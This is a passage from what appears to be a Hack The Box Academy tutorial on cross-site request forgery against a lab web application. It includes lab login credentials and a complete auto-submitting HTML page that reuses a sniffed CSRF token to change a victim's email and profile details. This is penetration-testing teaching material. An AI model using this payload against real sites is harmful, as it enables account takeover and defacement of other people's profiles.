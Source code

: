 While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving:
![30](https://academy.hackthebox.com/storage/modules/153/30.png)

Our assumption that there is no CSRF protection in the application was correct. We were able to change Ela Stienen's profile details via a cross-site request.

We can now use the malicious web page we crafted to execute CSRF attacks against other users.

If the update-profile request was GET-based and no anti-CSRF protections existed, an attacker would still be able to update Ela Stienen's profile through CSRF.

Next, we will cover how we can attack applications that feature anti-CSRF mechanisms.

## Cross-Site Request Forgery (GET-based)

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

Let us see an example.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

Now, browse Julie Rogers' profile and click Save. You should see the below:
![32](https://academy.hackthebox.com/storage/modules/153/32.png)

Activate burp suite's proxy (Intercept On) and configure your browser to go through it. Now click Save again. You should see the below:
![31](https://academy.hackthebox.com/storage/modules/153/31.png)

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`:
```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```
Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

